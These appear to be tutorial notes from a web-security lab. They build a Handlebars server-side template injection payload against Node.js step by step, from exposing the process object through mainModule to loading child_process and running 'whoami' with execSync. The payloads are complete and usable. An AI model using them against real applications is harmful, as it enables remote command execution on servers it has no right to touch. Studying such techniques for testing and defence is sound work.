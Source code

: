 

### **Global Variables in Node.js**

- **Globals** in computer programming are variables that are globally accessible throughout a program.
    
- In **Node.js**, Global objects are available in all loaded modules.
    

#### **Key Points:**

- A quick Google search for "Node.js Global Scope" provides documentation listing all available Global Objects in Node.js.
    
- **Important Variables** that appear to be global but are actually built-in objects in Node.js:
    
    - `__dirname`
        
    - `__filename`
        
    - `exports`
        
    - `module`
        
    - `require()`
        
- **Key Takeaway**: `require` is **not** globally accessible in certain contexts and may not be available in specific cases.
    

---

### **Process Object in Node.js**

- **Process Object** provides information and control over the current Node.js process.
    
- **Objective**: To use this object to load a module.
    

#### **Example Payload:**

- Modify the payload to return the **`process`** object:
    

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- URL encode the payload and send via **BurpSuite Repeater**.
    
- **Response**: `process` object is available, confirmed by the response showing `[object process]`.
    

---

### **Exploring `mainModule` Property**

- The **`mainModule`** property is deprecated since Node.js version 14.0.0, but it might still be accessible.
    
- The **`mainModule`** property contains a reference to the main module.
    

#### **Next Steps:**

- Modify payload to return **`process.mainModule`**:
    

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- **Response**: `[object Object]` is returned, confirming that **`mainModule`** is accessible.
    

---

### **Attempting to Load the `child_process` Module**

- The `child_process` module is available on default Node.js installations and can execute system commands.
    

#### **Updated Payload**:

- Modify payload to load **`child_process`** module using **`mainModule`**:
    

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- **Response**: The **`child_process`** module has been loaded successfully.
    

---

### **Executing a System Command (e.g., `whoami`)**

- Now, attempt to execute a system command like **`whoami`** using **`execSync()`** from the `child_process` module.
    

#### **Final Payload**:

- Modify payload to run **`whoami`**:
    

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- **Response**: The **`child_process.execSync()`** function successfully executes, confirming that system commands can be run via the **`child_process`** module.
    

---

### **Summary of Key Takeaways**:

1. **Globals in Node.js** are available in all modules, but **`require()`** may not be globally accessible.
    
2. The **`process`** object can provide useful system information and control.
    
3. The **`mainModule`** property, though deprecated, can still be accessed to load the **`require`** function in sandboxed environments.
    
4. The **`child_process`** module can be used to execute system commands like **`whoami`** after it is successfully loaded.
    
